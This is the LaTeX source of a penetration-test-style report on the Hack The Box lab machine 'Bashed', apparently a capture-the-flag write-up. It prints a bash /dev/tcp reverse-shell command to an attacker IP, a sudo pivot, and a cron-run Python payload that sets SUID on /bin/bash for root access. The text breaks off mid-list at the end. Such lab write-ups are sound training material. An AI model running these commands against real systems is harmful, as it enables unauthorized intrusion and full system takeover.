\documentclass[a4paper, 12pt]{article}

% *** IDIOMA ***
\usepackage[utf8]{inputenc}

\usepackage{indentfirst} % Indents first paragraph of sections

% *** COLOR *** 
\usepackage[table]{xcolor}
\definecolor{azul}{RGB}{0,89,140}
\definecolor{SecurityRed}{HTML}{8B0000}
\definecolor{lightgray}{rgb}{0.83, 0.83, 0.83}
\definecolor{grayblack}{RGB}{50,50,50}
\definecolor{light-gray}{gray}{0.95}
\usepackage[most]{tcolorbox}

% تعريف الألوان لدرجات الخطورة
\definecolor{CriticalRed}{RGB}{255, 199, 206}
\definecolor{CriticalText}{RGB}{156, 0, 6}
\definecolor{HighOrange}{RGB}{255, 235, 156}
\definecolor{HighText}{RGB}{156, 101, 0}
\definecolor{MediumGreen}{RGB}{226, 240, 217} % اللون الأخضر الذي طلبته
\definecolor{MediumText}{RGB}{120, 120, 0}
\definecolor{MediumGreenText}{RGB}{56, 87, 35}
% تعريف ألوان هادئة في بداية الملف (أو استخدمها مباشرة)
\definecolor{MutedBlue}{RGB}{235, 241, 245} % خلفية زرقاء باهتة جداً
\definecolor{DeepSlate}{RGB}{54, 95, 145}   % إطار أزرق رمادي رصين
% Define the rounded inline code style
\newtcbox{\code}{
	on line, 
	arc=2pt,                          % Adjust this value for more/less curve
	boxrule=0pt,                      % No border line
	colback=gray!15,                  % Light gray background
	colframe=gray!20,                 % Frame matches background
	fontupper=\ttfamily,              % Monospace font
	boxsep=0pt, left=2pt, right=2pt, top=1pt, bottom=1pt % Internal padding
}

% *** FIGURE ***
\usepackage{graphicx}
\graphicspath{{./Figuras}}
\usepackage{float}
\usepackage{subcaption}
\usepackage{wrapfig}
\usepackage{tikz}
\usepackage[font={color=grayblack}]{caption}


%*** TABLAS ***
\usepackage{booktabs}
\usepackage{colortbl}
\usepackage{makecell}
\usepackage[utf8]{inputenc}
\usepackage{tikz}
\usetikzlibrary{arrows.meta, positioning}

\usepackage{tabularx}

% *** REFERENCES & HYPERLINKS ***
\usepackage{hyperref}
\hypersetup{colorlinks=true, linkcolor=azul, urlcolor=azul, linktocpage, hyperfootnotes=true}

% *** FONT ***
\usepackage{lmodern}
\renewcommand*\familydefault{\sfdefault}

% *** GEOMETRY ***
\usepackage{geometry}
\geometry{left=25mm,right=25mm,top=35mm,bottom=30mm,headheight=35mm}

% *** DATE ***
\usepackage[useregional]{datetime2}

% *** CODE LISTING STYLE ***
\usepackage{listings}
\lstset{
	backgroundcolor=\color{light-gray},
	basicstyle={\small\ttfamily},
	breakatwhitespace=false,
	breaklines=true,
	commentstyle=\color{dkgreen},
	frame=none,
	keywordstyle=\color{blue},
	language=Bash,
	stringstyle=\color{mauve},
	showstringspaces=false,
	xleftmargin=15pt,
	xrightmargin=15pt,
	aboveskip=15pt
}


% *** CODE ***
\usepackage{listings}
\usepackage{color}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}





% *** HEADER ***
\usepackage{lastpage}
\usepackage{fancyhdr}
\pagestyle{fancy}

\renewcommand{\headrulewidth}{0.5pt}
\let\oldheadrule\headrule
\renewcommand{\headrule}{\color{azul}\oldheadrule}
\renewcommand{\footrulewidth}{0.5pt}
\let\oldfootrule\footrule
\renewcommand{\footrule}{\color{azul}\oldfootrule}

%*** FOOTER ***
\lfoot{\textcolor{grayblack}{\small \titulo}}
\cfoot{}
\rfoot{{\textcolor{grayblack}{\small Page. \thepage\ - \pageref{LastPage}}}}

%** HEADER ***
\lhead{\includegraphics[width=0.15\textwidth]{logo}}
\chead{{\small \autor}}
\rhead{\DTMsetstyle{ddmmyyyy}\fecha}
\usepackage{setspace}
\usepackage{titlesec}
\titleformat{\section}{\color{azul}\normalfont\Large\bfseries}{\thesection}{1em}{}
\titleformat{\subsection}{\color{azul}\normalfont\large\bfseries}{\thesubsection}{1em}{}
\titleformat{\subsubsection}{\color{azul}\normalfont\large\bfseries}{\thesubsection}{1em}{}


\begin{document}
% New Command
\newcommand{\fecha}{\DTMdate{2026-02-06}}
\newcommand{\titulo}{Security Assessment Report}
\newcommand{\autor}{Hussain Almalki}

\renewcommand{\figurename}{\bfseries Figure}
\renewcommand{\tablename}{\bfseries Table}
\renewcommand{\thefootnote}{\textcolor{grayblack}{\arabic{footnote}}}

\color{grayblack}

\begin{titlepage}
	\thispagestyle{empty}
	\begin{tikzpicture}[remember picture, overlay]
		\node [inner sep=0pt] at (current page.center){\includegraphics[width=21cm]{co}};
	\end{tikzpicture}
	\hfill
	\begin{minipage}{8cm}
		\vspace{5cm}
	\begin{flushright}
	\begin{spacing}{3}
		{\fontsize{40}{50}\selectfont \textbf{\titulo}}
	\end{spacing}

\end{flushright}
	\end{minipage}
\vfill
\hfill
\begin{minipage}{10cm}
\begin{flushright}
	\begin{spacing}{1}
	{\Large \bfseries \textit{Target Host: HTB Bashed}} \\ [0.5cm]

{\Large \autor} \\
{\Large 	6 Friday, 2026} \\


\begin{center}
	{\footnotesize This document is strictly confidential and subject to the Non-Disclosure Agreement (NDA) between JeddahSec and the Client.}
\end{center}

	\end{spacing}

\end{flushright}
\end{minipage}

\end{titlepage}
	



% *** CONTENTS ***
\tableofcontents
\clearpage



% --- صندوق تحذير أحمر رصين للتنبيه القانوني ---
\section{Confidentiality Statement}

% --- صندوق تحذير أحمر رصين للتنبيه القانوني ---
\begin{tcolorbox}[
	colback=red!5, 
	colframe=red!75!black, 
	arc=0pt, 
	outer arc=0pt,
	boxrule=1pt,
	left=15pt,
	title=\textbf{STRICTLY CONFIDENTIAL - NDA PROTECTED}
	]
	\small \textbf{Notice:} This document is issued under a binding Non-Disclosure Agreement (NDA). Unauthorized access or distribution is subject to severe legal consequences.
\end{tcolorbox}

\subsection{Proprietary Information Notice}
This document contains highly sensitive and proprietary information related to the cybersecurity posture and technical vulnerabilities of the target system: \textbf{HTB: Bashed}.

\subsection{Prohibition of Disclosure}
In accordance with standard industry \textbf{Non-Disclosure Agreements (NDA)}, any redistribution, review, retransmission, or dissemination of this report is strictly prohibited.

\subsection{Non-Disclosure Obligations}
By accessing this report, the recipient formally agrees to the following mandates:

\begin{itemize}
	% استخدام مربع ملون صغير كبديل احترافي للأيقونة لتجنب أخطاء التعريف
	\item \textbf{Third-Party Restriction:} You shall not disclose or share any part of this report with external consultants, media outlets, or unauthorized personnel without prior written consent.
	\item \textbf{Data Protection:} This report must be stored in a secure, encrypted environment with restricted access to prevent unauthorized leakage.
	\item \textbf{Limited Use:} Technical details are provided for \textbf{remediation and educational purposes only}. Unauthorized use against systems without explicit permission is illegal.
	\item \textbf{Audit Trail:} Access to this document is logged. Upon request, all copies must be returned or permanently destroyed to maintain the integrity of the security assessment.
\end{itemize}

% --- خط فاصل جمالي ---
\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}

\newpage

\subsection{Legal Consequences}
Unauthorized disclosure of the contents of this report may lead to legal action, including but not limited to claims for damages and injunctive relief. This document is protected under intellectual property and trade secret laws. 

\subsection{Document Control}
This section ensures accountability and compliance by tracking the document's lifecycle and authorization status. \footnote{\textcolor{gray}{Final Report confirms that the document has completed all drafting, review, and approval stages and is issued as the authoritative version.}}

\vspace{10pt}
\begin{table}[H]
	\centering
	\caption{{\footnotesize Document Governance \& Target Metadata}}
	\vspace{5pt} 
	
	% إعدادات الجدول الاحترافي
	\renewcommand{\arraystretch}{1.6} 
	
	\begin{tabularx}{\textwidth}{l c c >{\centering\arraybackslash}X c}
		% خط علوي سميك باللون الذي اعتمدناه للـ User (DeepSlate)
		\noalign{\global\arrayrulewidth=1.5pt}
		\arrayrulecolor{DeepSlate}\hline 
		
		\rowcolor{MutedBlue} % خلفية زرقاء هادئة للترويسة
		\textbf{\textcolor{grayblack}{Host}} & \textbf{\textcolor{grayblack}{IP Address}} & \textbf{\textcolor{grayblack}{Date}} & \textbf{\textcolor{grayblack}{Classification}} & \textbf{\textcolor{grayblack}{Status}} \\
		
		\noalign{\global\arrayrulewidth=0.4pt}
		\arrayrulecolor{gray}\hline 
		
		BASHED & 10.129.13.52 & Feb 6, 2026 & \textcolor{red!70!black}{\textbf{SECRET / PROPRIETARY}} & \textbf{Final Report} \\
		
		\noalign{\global\arrayrulewidth=1.5pt}
		\arrayrulecolor{DeepSlate}\hline 
	\end{tabularx}
\end{table}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}

\begin{tcolorbox}[
	colback=gray!5, 
	colframe=gray!50, 
	arc=3pt, 
	boxrule=0.5pt,
	left=5pt, right=5pt, top=5pt, bottom=5pt
	]
	\footnotesize \textbf{Confidentiality Notice:} This report is intended solely for the use of the individual or entity to which it is addressed. It contains information that is privileged, confidential, and exempt from disclosure under applicable law.
\end{tcolorbox}

\clearpage

\section{Executive Summary}
The security audit of the Bashed machine revealed critical vulnerabilities involving exposed development tools and misconfigured system permissions. The attack chain successfully demonstrated a full system compromise, starting from an unprivileged web user and escalating to a root-level administrative account.

\begin{figure}[H]
	\centering
	
\begin{tikzpicture}[
		node distance=0.8cm,
		base/.style={
			rectangle, rounded corners=8pt, draw=none,
			text width=9cm, minimum height=1.1cm,
			align=left, inner sep=12pt, font=\sffamily\bfseries
		},
		greenNode/.style={base, fill=MediumGreen, text=MediumGreenText},
		blueNode/.style={base, fill={rgb,255:red,221; green,235; blue,247}, text={rgb,255:red,31; green,78; blue,121}},
		yellowNode/.style={base, fill={rgb,255:red,255; green,242; blue,204}, text={rgb,255:red,127; green,96; blue,0}},
		redNode/.style={base, fill={rgb,255:red,252; green,228; blue,214}, text={rgb,255:red,131; green,60; blue,12}},
		arrow/.style={-Stealth, thick, gray!60}
		]
		
		\node[greenNode] (step1) {1. Reconnaissance \\ \normalfont\small Network scanning \& directory discovery (/dev/)};
		\node[blueNode] (step2) [below=of step1] {2. Initial Access \\ \normalfont\small Web shell execution via phpbash.php};
		\node[yellowNode] (step3) [below=of step2] {3. Lateral Movement \\ \normalfont\small Pivoting to 'scriptmanager' via sudo};
		\node[redNode] (step4) [below=of step3] {4. Privilege Escalation \\ \normalfont\small Root compromise via Cron Job (test.py)};
		
		\draw [arrow] (step1) -- (step2);
		\draw [arrow] (step2) -- (step3);
		\draw [arrow] (step3) -- (step4);
	\end{tikzpicture}
	\caption{{\footnotesize Attack Lifecycle Overview}}
\end{figure}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}

\newpage

\section{Technical Audit Phases}
\subsection{Phase I: Enumeration \& Web Discovery}
\subsubsection{Network Service Scanning}

The initial assessment focused on identifying the target's attack surface. A comprehensive service discovery scan was conducted via \code{nmap} against the target \code{IP 10.129.13.52}, focusing on version detection and default script auditing.

\begin{figure}[H]
	\centering
	
\begin{tikzpicture}[
		% تعريف ستايل الدائرة الأساسي
		infoCircle/.style={
			circle, 
			minimum size=2.6cm, 
			align=center, 
			font=\sffamily\bfseries\small, 
			text=white,
			inner sep=2pt,
			line width=1.5pt,
			draw=white % إطار أبيض خفيف لإبراز الدائرة
		}
		]
		
		% الدائرة الأولى: HOST
		\node[infoCircle, fill=DeepSlate] (host) at (0,0) {
			HOST \\ \vspace{0.1cm} \normalfont\footnotesize BASHED
		};
		
		% الدائرة الثانية: IP Address
		\node[infoCircle, fill=azul] (ip) at (3.2,0) {
			IP \\ \vspace{0.1cm} \normalfont\footnotesize 10.129.13.52
		};
		
		% الدائرة الثالثة: Port
		\node[infoCircle, fill=MediumGreen] (port) at (6.4,0) {
			PORT \\ \vspace{0.1cm} \normalfont\footnotesize 80/TCP
		};
		
		% الدائرة الرابعة: OS
		\node[infoCircle, fill=orange!85!black] (os) at (9.6,0) {
			OS \\ \vspace{0.1cm} \normalfont\footnotesize LINUX
		};
		
	\end{tikzpicture}
	\caption{{\footnotesize Technical Target Specifications Summary}}
	\label{fig:target_summary}
\end{figure}


\begin{description}
	\item[\textcolor{DeepSlate}{\textbf{Platform Identification:}}] The server was confirmed as \textbf{Apache httpd 2.4.18}, a version frequently associated with Ubuntu Xenial.
	\item[\textcolor{DeepSlate}{\textbf{Application Identity:}}] The HTTP page title, \textit{"Arrexel's Development Site"}, strongly indicates the host is used for staging or development, which often implies a higher probability of finding debug tools or insecure configurations.
\end{description}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/01_nmapScanning}
	\caption{{\footnotesize Comprehensive Nmap scan results identifying the Apache service on port 80.}}
	\label{fig:01nmapscanning}
\end{figure}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}

\newpage

\subsubsection{Web Directory Enumeration}

To map the target's attack surface, an automated directory brute-force and enumeration scan were performed using the \code{http-enum} script. This phase aims to identify hidden entry points or misconfigured directories that are not linked on the main page.

\begin{tcolorbox}[
	colback=MutedBlue, 
	colframe=DeepSlate, 
	arc=5pt, 
	boxrule=1pt, 
	title=\textbf{Directory Discovery Summary}
	]
	\small
	The following sensitive directories were identified as shown in \autoref{fig:03nmapwebscan}:
	\vspace{5pt}
	\begin{itemize}
		\item \textbf{/dev/:} A critical discovery; development directories often house unauthenticated tools or legacy scripts.
		\item \textbf{/php/:} Likely serves as the backend repository for functional PHP logic.
		\item \textbf{/uploads/:} A potential target for \textit{File Upload} attacks or data exfiltration.
		\item \textbf{Asset Directories:} Listings for \code{/css/}, \code{/images/}, and \code{/js/} were enabled, revealing the site's structural components.
	\end{itemize}
\end{tcolorbox}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/03_nmapWebScan}
	\caption{{\footnotesize Nmap \code{http-enum} output revealing the hidden directory structure.}}
	\label{fig:03nmapwebscan}
\end{figure}

\vspace{10pt}
\begin{description}
	\item[\textcolor{DeepSlate}{\textbf{Analysis:}}] The exposure of the \code{/dev/} directory is a major security red flag, suggesting that internal development tools might be accessible to the public internet—a common precursor to \textbf{Initial Access}.
\end{description}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}

\newpage
\subsubsection{System Information \& Fingerprinting}

The reconnaissance phase provided critical data points regarding the target's operating environment. By correlating the identified software versions with public repositories, a precise system profile was established.

\begin{tcolorbox}[
	colback=MutedBlue, 
	colframe=DeepSlate, 
	arc=5pt, 
	boxrule=1pt, 
	title=\textbf{Host Technical Profile}
	]
	\small
	\begin{itemize}
		\item \textbf{OS Codename:} Cross-referencing \code{Apache 2.4.18} versions and Launchpad metadata identifies the host as \textbf{Ubuntu Xenial} (16.04 LTS), as evidenced in \autoref{fig:02lanuchpad}.
		\item \textbf{Network Latency:} The target responded with a consistent latency of approximately \textbf{0.19s}, confirming a stable connection for further exploitation.
		\item \textbf{Kernel Context:} Exploiting a system of this vintage often involves looking for vulnerabilities specific to the 4.4.x Linux kernel series.
	\end{itemize}
\end{tcolorbox}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{02lanuchpad}
	\caption{{\footnotesize Launchpad package metadata confirming the Ubuntu distribution details.}}
	\label{fig:02lanuchpad}
\end{figure}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}


\clearpage



\subsection{Phase II: Initial Access \& Reverse Shell}

% --- تعريف Initial Access بشكل مفصل قبل الدخول في التفاصيل التقنية ---
\begin{tcolorbox}[
	colback=MutedBlue, 
	colframe=DeepSlate, 
	arc=5pt, 
	boxrule=1pt, 
	title=\textbf{Concept: Initial Access}
	]
	\small
	\textbf{Initial Access} is the foundational phase where an adversary gains a foothold within a target environment. In this scenario, it was achieved by leveraging an exposed development interface, transforming an external visitor into an internal user with the ability to execute code within the server's context.
\end{tcolorbox}

% تأكد من وجود هذه الحزم في الـ Preamble:
% \usepackage[most]{tcolorbox}
% \usepackage{fontawesome5}
\definecolor{CyberBlue}{RGB}{20, 52, 80}      % أزرق بترولي عميق
\definecolor{ActionOrange}{RGB}{211, 84, 0}   % برتقالي نحاسي
\subsubsection{Discovery of PHPBash Web Shell}

Manual inspection of the \texttt{/dev/} directory confirmed the exposure of sensitive development tools. This directory contained two functional web-based terminals: \texttt{phpbash.php} and \texttt{phpbash.min.php}.

\begin{description}
	\item[\textcolor{DeepSlate}{\textbf{Vulnerability Analysis:}}] 
	The presence of these tools in a publicly accessible directory represents a critical security flaw. These interfaces provide a shell directly through the browser, allowing any unauthenticated user to execute system commands as the \texttt{www-data} service account.
\end{description}

\begin{figure}[H]
	\centering
	\begin{subfigure}{0.93\textwidth}
		\centering
		\includegraphics[width=0.93\linewidth]{Figuras/06_bashedshell}
		\caption{{\footnotesize Web shell interface provided by phpbash.php.}}
		\label{fig:06bashedshell}
	\end{subfigure}
	\vspace{10pt}
	\begin{subfigure}{0.93\textwidth}
		\centering
		\includegraphics[width=0.93\linewidth]{Figuras/07_netcat}
		\caption{{\footnotesize Established a stable, interactive reverse shell via Netcat.}}
		\label{fig:07netcat}
	\end{subfigure}
	\caption{Initial foothold: From web-based command execution (a) to a persistent terminal session (b).}
\end{figure}

\subsubsection{Interactive Shell Stabilization}

While the web shell allowed for immediate command execution, it lacked stability and full terminal features. To establish a more robust environment, a reverse shell was initiated.

% --- الخطوة الأولى: جهاز المختبر (Listener) ---
\noindent\textbf{Step 1: Setting up the Listener (Auditor Side):}
\begin{tcolorbox}[
	enhanced,
	colback=black!90, 
	colframe=CyberBlue, 
	title=\textbf{Local Listener}, 
	colupper=white, 
	fontupper=\ttfamily\small,
	arc=4pt, 
	boxrule=1.5pt,
	attach boxed title to top left={xshift=10pt, yshift=-3mm},
	boxed title style={colback=CyberBlue, arc=2pt}
	]
	ncat -nlvp 443
\end{tcolorbox}

\vspace{10pt}

% --- الخطوة الثانية: الحقن (Payload) ---
\noindent\textbf{Step 2: Executing Reverse Shell Payload:}
\begin{tcolorbox}[
	enhanced,
	colback=black!90, 
	colframe=ActionOrange, 
	title=\textbf{Remote Payload Injection}, 
	colupper=green!80!white, % نص أخضر لمحاكاة الترمينال
	fontupper=\ttfamily\small,
	arc=4pt, 
	boxrule=1.5pt,
	attach boxed title to top left={xshift=10pt, yshift=-3mm},
	boxed title style={colback=ActionOrange, arc=2pt}
	]
	bash -c "bash -i >\& /dev/tcp/10.10.15.23/443 0>\&1"
\end{tcolorbox}



As illustrated in \autoref{fig:07netcat}, this process successfully redirected the target's standard input and output to the auditor's machine, resulting

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}


\clearpage


\subsection{Phase III: Lateral Movement \& User Flag}
\subsubsection{Initial Access Stabilization}

While a web shell like \code{phpbash.php} facilitates immediate command execution, it inherently lacks stability and critical terminal features such as tab-completion and job control. 

\begin{wrapfigure}[12]{l}{0.35\linewidth} 
	\centering
	\vspace{-15pt} 
	\includegraphics[width=\linewidth]{lateral}
	\caption{{\footnotesize Lateral context}}
	\label{fig:lateral_icon}
\end{wrapfigure}

To overcome these constraints, establishing a \textbf{Reverse Shell} was the logical progression. This transition ensures a persistent and fully interactive command-line environment, essential for complex post-exploitation tasks.

\textbf{Methodology:} An outbound connection was initiated from the target and intercepted using Netcat (\code{nc}) on port 443. \textbf{Identity Verification:} Upon connection, the commands \code{id} and \code{whoami} confirmed the session was operating under the \code{www-data} service account (\code{uid=33}), as illustrated in \autoref{fig:07netcat}.

The strategic use of \textbf{Port 443} (HTTPS) was intentional; most enterprise firewalls permit outbound traffic on this port to maintain web connectivity, making it an ideal channel for bypassing egress filtering. This "TCP/IP Swiss Army Knife" approach allowed the attacker to transform a fragile web-based foothold into a robust administrative session.

\begin{tcolorbox}[
	colback=MutedBlue, 
	colframe=DeepSlate, 
	arc=5pt, 
	boxrule=1pt, 
	title=\textbf{Technical Definition: Initial Access}
	]
	\small
	\textbf{Initial Access} is the foundational phase of the cyber-attack lifecycle. It refers to the specific techniques and entry points utilized by an adversary to bridge the gap between the external network and the target's internal infrastructure.
\begin{itemize}
	\item \textbf{The Vector:} In this assessment, the vector was \textit{Exploitation of Public-Facing Applications} via \code{phpbash.php}.
	\item \textbf{The Foothold:} This stage establishes a persistence point from which further internal enumeration can be orchestrated.
	\item \textbf{Impact:} Successful initial access transforms an external threat into an internal one, increasing the system's risk profile.
\end{itemize}
\end{tcolorbox}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}


\newpage
\subsubsection{User Flag Retrieval}

Upon gaining initial access, local enumeration of the \code{/home} directory was conducted. The investigation identified two primary user directories: \code{arrexel} and \code{scriptmanager}.

\begin{description}
	\item[\textcolor{DeepSlate}{\textbf{Flag Acquisition:}}] 
	Further inspection of the \code{arrexel} home directory led to the discovery of the user flag. The file \code{user.txt} was found to be world-readable, allowing for the successful exfiltration of the hash.
\end{description}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/08_userflag}
	\caption{{\footnotesize Successful retrieval of the user flag from \code{/home/arrexel/user.txt}.}}
	\label{fig:08userflag}
\end{figure}
% --- تصميم كبسولة الهاش باللون الأزرق الهادئ ---
\begin{figure}[H]
	\centering
	% تعريف ألوان الأزرق الهادئ للمستخدم
	\definecolor{myUserDark}{RGB}{54, 95, 145}   % أزرق غامق للعنوان والسهم
	\definecolor{myUserLight}{RGB}{235, 241, 245} % أزرق باهت جداً للخلفية
	
	\begin{tikzpicture}[
		node distance=0.2cm,
		base/.style={
			rectangle, rounded corners=10pt, draw=none,
			minimum height=1.2cm, align=center, font=\sffamily\bfseries
		},
		% جزء العنوان (User) - المربع الصغير
		titleNode/.style={
			base, fill=myUserDark, text=white, 
			text width=2.5cm
		},
		% جزء الهاش - المربع الممتد
		hashNode/.style={
			base, fill=myUserLight, 
			text=myUserDark, 
			text width=9cm
		}
		]
		
		% رسم العنوان (الخانة الأولى)
		\node[titleNode] (title) {USER FLAG};
		
		% رسم الهاش (الخانة الثانية) بجانب الأولى
		\node[hashNode, right=of title] (hash) {\ttfamily e1ffae7dba0caef6730b43bdd8d33d64};
		
		% رسم سهم يربط بينهما باستخدام اللون الأزرق المعرف
		\draw[-Stealth, ultra thick, myUserDark] (title.east) -- (hash.west);
		
	\end{tikzpicture}
	\caption{{\footnotesize Successfully retrieved User Flag hash}}
\end{figure}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}


\clearpage

\subsubsection{Lateral Movement to Scriptmanager}
An audit of current \code{sudo} privileges revealed a critical configuration weakness that allows for vertical movement within the system.

\begin{description}
	\item[\textcolor{SecurityRed}{\textbf{Privilege Misconfiguration:}}] 
	The \code{www-data} user is granted excessive permissions via the \code{sudoers} file. Specifically, it is permitted to execute commands as the \code{scriptmanager} user without password authentication (\code{NOPASSWD: ALL}).
\end{description}

\begin{tcolorbox}[colback=red!5, colframe=red!40, arc=5pt, title=\small \textbf{Vulnerable Sudo Entry}]
	\small\ttfamily www-data ALL=(scriptmanager) NOPASSWD: ALL
\end{tcolorbox}

This bypass of the standard authentication mechanism, illustrated in \autoref{fig:09sudol}, serves as the primary vector for escalating from a low-privilege service account to a more privileged user.

\begin{itemize}
	\item Execution: By executing \code{{\footnotesize sudo -u scriptmanager bash}}, the auditor successfully transitioned to the \code{{\footnotesize scriptmanager}} user account.
\end{itemize}
\begin{figure}[h]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/09_sudo_l}
	\caption{{\footnotesize Lateral Movement}}
	\label{fig:09sudol}
\end{figure}
%\clearpage


\subsubsection{Root Vector Identification}

After pivoting to the \code{scriptmanager} account, further enumeration was conducted to identify potential vectors for full system compromise (\textbf{root}). 

\begin{description}
	\item[\textcolor{DeepSlate}{\textbf{Discovery of Non-Standard Directory:}}] 
	A recursive search for files owned by the current user revealed a non-standard directory at the root level: \code{/scripts}. This is a significant finding, as root-level directories are typically reserved for system-critical functions.
\end{description}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/10_findScript}
	\caption{{\footnotesize Confirmation of ownership and permissions for the \code{/scripts} directory.}}
	\label{fig:10findscript}
\end{figure}

\subsubsection{Automated Task Analysis (Cron Jobs)}

To understand how the system utilizes this directory, a custom monitoring script was deployed to track scheduled processes. 

\begin{tcolorbox}[colback=MutedBlue, colframe=DeepSlate, arc=5pt, title=\small \textbf{Enumeration Finding}]
	The monitoring process confirmed that a system \textbf{Cron Job} is active, regularly executing all Python (\code{.py}) files within the \code{/scripts} directory with \textbf{root privileges}.
\end{tcolorbox}

This execution flow, illustrated in \autoref{fig:13pid}, presents a direct path for privilege escalation: any script modification within this directory will result in code execution as the root user.

% Source - https://stackoverflow.com/a/3175141
% Posted by Cloudanger, modified by community. See post 'Timeline' for change history
% Retrieved 2026-02-06, License - CC BY-SA 4.0

\begin{lstlisting}
#!/bin/bash
# Pre-define the format to keep things clean
FORMAT="user,command"

# Initial state
old_process=$(ps -eo "$FORMAT")

while true; do
	new_process=$(ps -eo "$FORMAT")
	# Compare and filter in one go
	# We ignore 'kworker' and the 'ps' command itself to reduce noise
	diff <(echo "$old_process") <(echo "$new_process") | \
		grep -E "^[<>]" | \
		grep -vE "kworker|process"
	old_process="$new_process"
	# Crucial: give the CPU a break
	sleep 1
done
\end{lstlisting}

\begin{figure}[h]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/13_pid}
	\caption{{\footnotesize Monitoring process execution confirming root cronjob activity.}}
	\label{fig:13pid}
\end{figure}

\newpage


% استخدام minipage لتنسيق الصورة بجانب النص بشكل مضمون
\noindent
\begin{minipage}{0.35\textwidth}
	\centering
	\includegraphics[width=\linewidth]{vuln}
	\captionof{figure}{{\footnotesize Privilege Vector}}
	\label{fig:vuln_icon}
\end{minipage}
\hfill
\begin{minipage}{0.60\textwidth}
	\textbf{Vulnerability Analysis:} \\
	The audit identified that the \code{scriptmanager} user has write permissions over the \code{/scripts} directory. Since a system cron job executes any Python script in this folder with \textbf{root} privileges, this creates a direct path for escalation.
\end{minipage}

\vspace{15pt}

\noindent \textbf{Exploitation Strategy:}
The attack exploits the fact that \code{scriptmanager} owns the files in the \code{/scripts} directory:

\begin{itemize}
	\item \textbf{Script Modification:} A Python file (e.g., \code{test.py}) was modified within the directory.
	\item \textbf{Payload Injection:} Injected the command \code{os.system("chmod u+s /bin/bash")} to target the system's bash binary.
	\item \textbf{Execution:} The cron job runs as root, executing the command with highest authority and setting the SUID bit on Bash.
\end{itemize}

\begin{lstlisting}
#!/usr/bin/python
	
import os
os.system("chmod u+s /bin/bash")
\end{lstlisting}

To monitor the permission change in real-time, the auditor used the \code{watch} command. Once the cron job executed the malicious Python script, the permissions of the Bash binary were successfully altered.

\begin{itemize}
	\item \textbf{Permission Shift:} The binary transitioned from \code{-rwxr-xr-x} to \code{-rwsr-xr-x}.
	\item \textbf{SUID Indicator:} The \textbf{"s"} bit indicates that any user executing this binary will do so with the effective privileges of the file owner (\textbf{root}).
\end{itemize}

\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/15_sbash}
	\caption{{\footnotesize Real-time monitoring showing the successful application of the SUID bit on /bin/bash.}}
	\label{fig:15sbash}
\end{figure}

\newpage
With the SUID bit set, the final stage of the attack was to spawn a root shell. 

\begin{enumerate}
	\item \textbf{Shell Invocation:} Executing \code{bash -p} allows the shell to run in privileged mode, respecting the SUID bit instead of dropping it.
	\item \textbf{Identity Confirmation:} Running \code{whoami} returned \code{root}, confirming full administrative control over the target.
